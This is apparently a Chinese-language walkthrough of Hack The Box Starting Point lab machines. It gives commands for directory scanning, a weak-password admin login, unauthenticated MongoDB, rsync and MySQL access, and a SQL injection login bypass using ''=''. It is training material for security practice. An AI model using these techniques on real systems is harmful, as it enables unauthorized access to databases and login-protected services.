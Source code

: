 ```bash
$ xfreerdp /v:<box_ip> /cert:ignore /u:Administrator
```

### Preignition

HTTP 服务默认使用 TCP 80 端口，响应头中发现服务器版本为 Nginx 1.14.2。使用 gobuster 进行目录扫描：

```bash
$ gobuster dir -u http://<box_ip> -w /usr/share/wordlists/dirb/common.txt
```

发现存在 `admin.php`，可以访问管理员后台但需要账号密码，使用弱口令 `admin/admin` 成功登录。

### Mongod

MongoDB 服务默认使用 TCP 27017 端口，首先安装 `mongodb-clients` 工具，随后使用 `mongo` CLI 访问数据库，找到 `flag` 这个 collection 并使用 `find` 查询数据：

```bash
$ mongo <box_ip>
...
> show dbs
admin                  0.000GB
config                 0.000GB
local                  0.000GB
sensitive_information  0.000GB
users                  0.000GB
> use sensitive_information
> show collections
flag
> db.flag.find().pretty()
```

### Synced

Rsync 服务默认使用 TCP 873 端口，直接使用 rsync 匿名认证连接：`rsync --list-only rsync://<box_ip>/`，发现 flag 在 `public` 目录下，使用 rsync 下载到本地：

```bash
$ rsync rsync://<box_ip>/public/flag.txt ./flag
```

## Tier 1

### Appointment

SQL 注入教学，使用 `'='` 作为密码即可成功登录（拼接成 `AND password=''=''`）。

### Sequel

MySQL 服务默认使用 TCP 3306 端口，使用 `mysql -u root -h <box_ip>` 进行连接，随后运行：

```sql
> show databases;
> use htb;
> show tables;
> select * from config;
```
